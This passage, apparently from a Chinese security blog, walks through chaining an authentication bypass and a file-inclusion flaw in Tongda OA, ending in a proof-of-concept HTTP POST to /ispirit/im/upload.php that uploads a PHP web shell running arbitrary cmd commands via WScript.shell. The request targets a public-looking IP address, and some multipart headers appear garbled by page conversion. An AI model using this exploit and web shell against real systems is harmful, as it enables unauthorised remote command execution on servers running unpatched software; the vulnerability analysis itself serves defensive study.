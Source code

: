 这里首先是不传入参数 P 就可以进入下面判断语句，之后用到了 stripcslashes 函数

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSGeYH4mRCThwafpMIh6mo5NIPVpejqyBPysTIhwgl4ThMxEIV12jvqJVYs96uiaryX0ldZEp8b6q5Q/640?wx_fmt=jpeg)  
看一下实例就明白了，只是这里的源码接收了一个形参

之后从 json 中获取 url 参数的值，之后判断 general/、ispirit/、module / 是否在 url 内

如果不在直接跳过下面的 include_once $url, 如果存在则包含指定 URL 的文件，

这个是后期进行文件包含的重点

0x05 综合思路
---------

通过第一个漏洞，绕过认证上传木马，然后通过文件包含来包含文件，

其中需要注意的是 DEST_UID 不能未空，文件包含中的 url 请求数据中需要包含 general/、ispirit/、module / 三者中的一个.

0x06 本地演示
---------

1. 访问本地通达 OA 系统

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSGeYH4mRCThwafpMIh6mo5NChNAOibFmocz41yvMXASe18g2mzt63qUUiaQRU76ZLnbvkISBQlhFIqQ/640?wx_fmt=jpeg)  
  

2. 抓包，改 POST 包，放入 Repeater 模块。

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSGeYH4mRCThwafpMIh6mo5NKoxgwRrpYkGJUnSjv4mH0UAa3BlmTJbjGrDTtWA8afNicl5MqCyBic7A/640?wx_fmt=jpeg)  
  

3. 改包，如下 POC

```
POST /ispirit/im/upload.php HTTP/1.1<br style="overflow-wrap: break-word !important;">Host: 218.107.46.235<br style="overflow-wrap: break-word !important;">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0<br style="overflow-wrap: break-word !important;">Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8<br style="overflow-wrap: break-word !important;">Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2<br style="overflow-wrap: break-word !important;">Accept-Encoding: gzip, deflate<br style="overflow-wrap: break-word !important;">Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB<br style="overflow-wrap: break-word !important;">Content-Length: 564<br style="overflow-wrap: break-word !important;">Origin: http://localhost<br style="overflow-wrap: break-word !important;">Connection: close<br style="overflow-wrap: break-word !important;">Referer: http://localhost/<br style="overflow-wrap: break-word !important;">Cookie: Phpstorm-9102a7e6=cc1a9f2c-c084-4378-8aa3-e42492123b1c; PHPSESSID=18p3ov5rtc2i1elr4dvje9m1b3<br style="overflow-wrap: break-word !important;">Upgrade-Insecure-Requests: 1<br style="overflow-wrap: break-word !important;"><br style="overflow-wrap: break-word !important;">------WebKitFormBoundarypyfBh1YB4pV8McGB<br style="overflow-wrap: break-word !important;">Content-Disposition: form-data; overflow-wrap: break-word !important;"><br style="overflow-wrap: break-word !important;">2<br style="overflow-wrap: break-word !important;">------WebKitFormBoundarypyfBh1YB4pV8McGB<br style="overflow-wrap: break-word !important;">Content-Disposition: form-data; overflow-wrap: break-word !important;"><br style="overflow-wrap: break-word !important;">123<br style="overflow-wrap: break-word !important;">------WebKitFormBoundarypyfBh1YB4pV8McGB<br style="overflow-wrap: break-word !important;">Content-Disposition: form-data; overflow-wrap: break-word !important;">Content-Type: image/jpeg<br style="overflow-wrap: break-word !important;"><br style="overflow-wrap: break-word !important;"><?php<br style="overflow-wrap: break-word !important;">$command=$_POST['cmd'];<br style="overflow-wrap: break-word !important;">$wsh = new COM('WScript.shell');<br style="overflow-wrap: break-word !important;">$exec = $wsh->exec("cmd /c ".$command);<br style="overflow-wrap: break-word !important;">$stdout = $exec->StdOut();<br style="overflow-wrap: break-word !important;">$stroutput = $stdout->ReadAll();<br style="overflow-wrap: break-word !important;">echo $stroutput;<br style="overflow-wrap: break-word !important;">?><br style="overflow-wrap: break-word !important;">------WebKitFormBoundarypyfBh1YB4pV8McGB--<br style="overflow-wrap: break-word !important;">
```

